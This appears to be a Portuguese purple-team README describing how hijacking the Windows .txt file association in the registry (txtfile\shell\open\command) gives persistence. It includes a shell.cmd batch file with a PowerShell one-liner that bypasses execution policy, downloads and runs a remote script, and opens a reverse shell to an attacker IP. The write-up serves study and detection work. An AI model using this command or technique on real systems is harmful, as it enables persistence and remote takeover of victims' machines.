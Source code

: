 
<p align="center">
  <img src="./imagens/ISHLOGO.png" alt="Logo do Purple Team" width="300" height="300">
</p>

# CTI Purple Team - Execução Acionada por Evento: Alterar Associação de Arquivo Padrão 

Quando um arquivo é criado em um sistema operacional como o Windows, ele é automaticamente associado a um programa específico que será usado para abrir esse tipo de arquivo quando clicado duas vezes.

A execução acionada por evento permite que os usuários personalizem a maneira como os arquivos são abertos, definindo regras específicas para acionar a execução de aplicativos diferentes com base em diferentes eventos.

As seleções de associação de arquivos são armazenados no Registro do Windows e podem ser editados por usuários, administradores ou programas que tenham acesso ao Registro ou por administradores usando o utilitário associado.

Neste contexto, exploraremos os conceitos por trás da execução acionada por evento representando o sequestro da extenção ***.txt***, sendo possível executar um aplicativo malicioso antes que o arquivo real seja aberto, gerando um reverse shell na máquina do atacante.

## Contexto

Quando um arquivo ***.txt*** é clicado duas vezes, ele é aberto com um ***notepad.exe***. O windows por padrão sabe que para abrir esse tipo de extensão precisa usar o *notepad.exe*.

As associaçõs de arquivos do sistemas estão listadas em **HKEY_CLASSES_ROOT.[extention]**, no caso dessa pesquisa será listado em **HKEY_CLASSES_ROOT.txt**.

No entanto, é possível sequestrar chaves de registro que controlam o programa padrão para extensões específicas a fim de obter persistência.


## Análise e Execução do código malicioso

Há dois locais de registro que definem os manipuladores de extensão, que são mostrados a seguir, e são classificados como: *Global* e *Local*.

<p align="center">
  <img src="imagens/locais-de-registro.png">
</p>

Quando um usuário tenta abrir um arquivo, o sistema operacional verifica os registros locais em (HKEY_CURRENT_USERS) para determinar qual programa está designado para lidar com aquela extensão de arquivo. Caso nao houver nenhuma entrada de registro associada, a verificação é feita na árvore de registro global (HKEY_CLASSES_ROOT).

Dependendo dos privilégios do usuário (Administrador ou Usuário Padrão), esses locais de registro podem ser explorados para executar código malicioso, utilizando o manipulador de extensão como um gatilho.

A priori, para executar o sequestro de extensão é necessário que o atacante já possua o primeiro acesso inicial à máquina alvo.

Portanto, podemos observar que o manipulador de extensão ***.txt*** está definido na chave de registro abaixo:
```zsh
Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

Abaixo exemplifico que o comando responsável por abrir arquivos *.txt* é o *notepad.exe %1*, onde o argumento *%1*, especifica um nome de arquivo qualquer, ou seja, é uma variante para o nome dos arquivos que o bloco de notas deve abrir:

<p align="center">
  <img src="imagens/Editor-de-registro-HKEY.png">
</p>

Supomos que o usuário alvo possua uma arquivo chamado ***test.txt*** em sua área de trabalho, contendo o conteúdo do arquivo ilustrado abaixo:

<p align="center">
  <img src="imagens/arquivo-vitima.png">
</p>

Iremos criar agora um arquivo malicioso que será executado quando o usuário alvo tentar abrir um arquivo chamado test.txt, sendo que com a execução desta têcnica pode ser qualquer arquivo aleatório, apenas seguindo o critério de extenção .txt usado como exemplo nesta pesquisa.

Para isso, criaremos um arquivo em lotes simples do Windows chamado ***shell.cmd*** na maquina do usuário alvo:
```zsh
start notepad.exe %1
powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.140.128/purplecat.ps1');purplecat -c 192.168.140.128 -p 8081 -e cmd.exe"
```

A partir disso, podemos sequestrar a extensão do arquivo .txt, modificando os dados do valor de registro de Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command para C:\Users\Win-test\Desktop\shell.cmd, local onde nosso arquivo malicioso está gravado.

<p align="center">
  <img src="imagens/mod.registro.png">
</p>

Após a modificação a chave de registro se encontrará da mesma maneira que a imagem a seguir:

<p align="center">
  <img src="imagens/modificado.png">
</p>

Agora na máquina do atacante, iremos rodar dois comandos no terminal, um para baixar o arquivo aberto pelo usuário e outro para escutar a porta selecionada para sequestrar a sessão do sistema da vítima:

<p align="center">
  <img src="imagens/comando-para-baixar-arquivo.png">
</p>

O comando acima, baixa os arquivos .txt abertos pela vítima. E o comando abaixo escuta a porta selecionada no arquivo malicioso.

<p align="center">
  <img src="imagens/comando-escustar-maquina-alvo.png">
</p>
